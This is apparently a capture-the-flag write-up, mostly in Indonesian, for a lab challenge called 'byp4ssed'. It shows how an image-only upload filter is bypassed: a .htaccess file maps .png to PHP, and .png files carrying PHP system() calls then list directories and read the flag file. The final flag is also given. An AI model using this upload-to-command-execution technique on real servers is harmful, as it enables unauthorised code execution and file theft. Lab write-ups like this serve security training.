


# byp4ssed

### Deskripsi
A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.


### Overview
 - Registrasi online hanya menerima file .png .jpg .gif, jadi harus mencari tau bagaimana cara agar website menerima file injection untuj menjalankan perintah di server

### Solusi

Pertama, coba-coba kirim file seperti .png yang diminta dan lihat hasilnya. Kita diarahkan ke `/upload.php` dan file berhasil diterima, ketika membuka nya di `images/gambar.png` pun bisa. Disini saya iseng membuka `images/` dan muncul pesan _forbidden_ .

Tapi kita jadi tau bahwa server berjalan dengan Apache/2.4.68 di Debian

#### Coba kirim file php

Selanjutnya coba kirim file php seperti `tes.php` dan langsung ditolak, saya coba ubah namanya menjadi `tes.php.png` atau `tes.png` dan **berhasil diterima** oleh server namun ketika dibuka hanya muncul default dan sepertinya code php didalamnya tidak dijalankan

#### .htaccess

Pada hint dikatakan dengan file `.htaccess` kita dapat menipu Apache untuk menjalankan perintah PHP pada file yang bukan .php

>Apache can be tricked into executing non-PHP files as PHP with a .htaccess file.

Apa itu `.htaccess`, itu adalah konfigurasi Apache yang berlaku pada direktori tempat file tersebut berada dan direktori turunannya. Disini kita dapat mengisi file `.htaccess` dengan:
``` php
AddType application/x-httpd-php .png
```
Yang intinya menambahkan jenis ekstensi file yang harus diproses PHP oleh Apache, disini saya menambahkan file ekstensi .png, bisa juga .jpg dan .gif jika ingin tapi .png cukup

#### Eksekusi 

Upload file `.htaccess` tadi, website akan menerima dan saat dibuka akan muncul yang _forbidden_ yang sama seperti sebelumnya. Walau begitu ini tidak mengindikasi gagal upload, jika kita kembali upload file `tes.png` dan membukanya, kode php di dalamnya berhasil diproses.


Dari sini kita tinggal mencari flagnya ada dimana, upload perintah ini dalam file.png, bisa secara terpisah atau satu file yang dioverwrite  dan kirim berulang-ulang atau langsung saja upload `flag.png` untuk mendapatkan flagnya.
Pastikan `.htaccess` tadi telah diupload dan jika ingin mengikuti/melihat setiap langkah kirim saja file-file `tes#` sesuai urutannya dari 1-4
``` php
<?php
	system('ls');
?>
```

Kita ingin tau apakah flagnya ada dimana, menggunakan `system('ls')` untuk menjalankan perintah OS lewat php (kita mengetahui sistem operasi yang digunakan server dari informasi sebelumnya, yaitu Debian). Tapi yang muncul hanya file file yang telah kita upload

``` php
<?php
	system('pwd');
?>
```

Oleh karena itu saya ingin melihat daftar direktori saat ini, hasilnya
>/var/www/html/images

Selanjutnya saya coba dulu melihat semua seluruh folder/file dari direktori `www/`
``` php
<?php
	system('ls -lR ../..');
?>
```

Langsung ketemu, ternyata benar flagnya ada di direktori `www/`
>../..: total 4 -rw-r--r-- 1 root root 31 Sep 23 06:25 **flag.txt** drwxrwxrwt 1 www-data www-data 20 Sep 23 06:25 html ../../html: total 8 drwxr-xr-x 1 www-data root 118 Nov 22 02:52 images -rw-r--r-- 1 www-data root 974 Sep 23 00:59 index.php -rw-r--r-- 1 www-data root 681 Sep 23 00:59 upload.php ../../html/images: total 24 ...

Jika ingin memastikan bisa cek dengan
``` php
<?php
	system('ls ../..');
?>
```
Kita tinggal membacanya dengan perintah terminal `cat`, terakhir upload (`flag.png`)
``` php
<?php
	system('cat ../../flag.txt');
?>
```

Dan didapat flagnya (Baru):
> academy{s3rv3r_byp4ss_b1e8386b}


